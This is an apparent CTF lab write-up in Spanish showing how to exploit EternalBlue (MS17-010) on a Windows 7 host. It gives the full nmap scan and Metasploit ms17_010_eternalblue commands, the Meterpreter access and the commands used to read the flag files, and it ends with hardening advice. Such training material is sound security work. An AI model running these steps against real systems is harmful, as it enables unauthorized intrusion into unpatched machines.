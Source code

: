 # **Explotación de EternalBlue (MS17-010)**

![Nivel: Medio](https://img.shields.io/badge/Nivel-Medio-orange) ![Tema: SMB Exploitation + Windows Privilege Escalation](https://img.shields.io/badge/Tema-SMB%20Exploitation%20%2B%20Windows%20PrivEsc-blue)

## **Descripción**
Este repositorio documenta la explotación completa de la vulnerabilidad **EternalBlue** (MS17-010) que afecta a sistemas Windows sin parches, incluyendo:
1. Detección de vulnerabilidad SMB
2. Explotación con Metasploit Framework
3. Obtención de shell interactivo
4. Extracción de flags de usuario y root

**Tiempo estimado**: 20-30 minutos  
**Dificultad**: Medio  
**Sistema operativo**: Windows

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Detección de Vulnerabilidad](#detección-de-vulnerabilidad)
3. [Explotación con Metasploit](#explotación-con-metasploit)
4. [Acceso Inicial](#acceso-inicial)
5. [Extracción de Flags](#extracción-de-flags)
6. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo de Puertos
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 10.0.2.13 -oN escaneo
```

**Resultados**:
- **Puerto 135/tcp**: MSRPC
- **Puerto 139/tcp**: NetBIOS-SSN
- **Puerto 445/tcp**: SMB - Microsoft Windows 7/Server 2008 R2
- **Puerto 49152/tcp**: MSRPC

### 2. Identificación del Sistema
- **Sistema operativo**: Windows 7/Server 2008 R2
- **Servicio vulnerable**: SMBv1

## **Detección de Vulnerabilidad**

### 3. Escaneo de Vulnerabilidades SMB
```bash
nmap --script "vuln" 10.0.2.13 -p 445 -oN vuln_scan
```

**Hallazgo crítico**:
```
VULNERABLE:
MS17-010: VULNERABLE
```

### 4. Verificación con Script Específico
```bash
nmap --script smb-vuln-ms17-010 10.0.2.13 -p 445
```

## **Explotación con Metasploit**

### 5. Inicio de Metasploit
```bash
msfconsole
```

### 6. Búsqueda del Exploit
```bash
search eternalblue
```

### 7. Configuración del Exploit
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.0.2.13
set LHOST tun0
options
```

### 8. Ejecución del Exploit
```bash
run
# o
exploit
```

## **Acceso Inicial**

### 9. Obtención de Sesión Meterpreter
**Resultado exitoso**:
```
[*] Meterpreter session 1 opened
```

### 10. Verificación de Acceso
```bash
getuid
sysinfo
```

## **Extracción de Flags**

### 11. Navegación al Directorio de Usuario
```bash
cd C:\\
cd Users
cd mike
cd Desktop
dir
```

### 12. Flag de Usuario
```bash
type user.txt
```
- **User Flag**: `[Redacted]`

### 13. Flag de Root/Administrator
```bash
cd C:\\
cd Users
cd Administrator
cd Desktop
dir
type root.txt
```
- **Root Flag**: `[Redacted]`

## **Conclusión**

### Vulnerabilidades Críticas
1. **Sistema sin parche MS17-010**
2. **SMBv1 habilitado y expuesto**
3. **Configuración insegura de servicios de red**

### Hardening Recomendado
- Aplicar parche MS17-010 inmediatamente
- Deshabilitar SMBv1 si no es necesario
- Implementar segmentación de red
- Actualizar a versiones soportadas de Windows
- Implementar firewall para restringir acceso SMB

### Técnicas Aplicadas
1. **Escaneo de vulnerabilidades** con Nmap
2. **Explotación de SMB** con Metasploit
3. **Manejo de sesiones** Meterpreter
4. **Navegación en sistemas Windows**

---

**Herramientas utilizadas**:
- Nmap
- Metasploit Framework
- Meterpreter
- Scripts de vulnerabilidad NSE

**Referencias**:
- [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)
- [MS17-010 Bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
- [Metasploit EternalBlue Module](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

**Tags**: `#EternalBlue #MS17-010 #SMB #Windows #Metasploit #Meterpreter #PrivEsc #CTF`

---

## **Lecciones Aprendidas**
- La falta de parches de seguridad expone sistemas críticos
- SMBv1 es inherentemente inseguro y debe deshabilitarse
- Las herramientas de escaneo automatizado son esenciales para la detección
- Metasploit proporciona exploits confiables para vulnerabilidades conocidas
- La post-explotación en Windows requiere conocimiento de la estructura de directorios

## **Notas Adicionales**
- Esta vulnerabilidad fue utilizada en el ataque WannaCry
- Microsoft emitió parche en marzo de 2017
- Sistemas sin actualizar siguen siendo vulnerables
